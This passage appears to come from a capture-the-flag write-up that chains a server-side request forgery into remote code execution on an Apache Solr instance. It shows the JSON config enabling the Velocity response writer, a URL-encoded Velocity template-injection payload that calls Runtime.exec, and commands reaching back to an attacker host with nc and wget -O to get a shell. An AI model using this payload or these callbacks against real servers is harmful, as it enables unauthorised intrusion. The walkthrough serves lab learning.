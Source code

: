     {
      "update-queryresponsewriter": {
        "startup": "lazy",
        "name": "velocity",
        "class": "solr.VelocityResponseWriter",
        "template.base.dir": "",
        "solr.resource.loader.enabled": "true",
        "params.resource.loader.enabled": "true"
      }



Now I've shown that I can have the feedengine send the POST request
necessary to do the Solr exploit. Still sending the requests to my box
for testing, I'll create the second request, the GET. I won't need
Gopher for this, as I can just use HTTP to send the full GET:



    cmd = 'ping -c 1 10.10.14.9'
    http2 = f"http://{host}:8983/solr/staging/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+        %23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27{quote(cmd)}%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"



That Python f-string will allow me to easily change the host and the
command, and it does the url-encoding as well.

#### Remote

Up to this point I've been sending requests to Laser and having it send
two requests back to my host so I could make sure they look right.

Now that I could see the correct requests are being sent, I changed the
`host` variable from my IP to `localhost` to the exploit requests would
go to Laser and crossed my fingers. It didn't work. When the first
request sends, it hangs for \~60 seconds. Then it prints like it was
successful twice.

This took a bunch of troubleshooting to figure out. Eventually I tried
breaking it into two scripts, and sending the POST, and while it hangs,
sending the GET. It worked! I got a ping. I tend to like to make pretty
scripts that work cleanly, but in this case, I left it as two scripts.

### Shell

#### RCE to Shell

Going from RCE (ping) to shell was non-trivial. I could get pings and
get `nc` to connect to me (just like `nc 10.10.14.9 443`), but it seemed
that characters like `;` and `|` seemed to break execution. I eventually
figured out that I could `wget -O` to get a file from my host to Laser,
and once I had that, I could get a shell. The two scripts I used to get
a shell were:
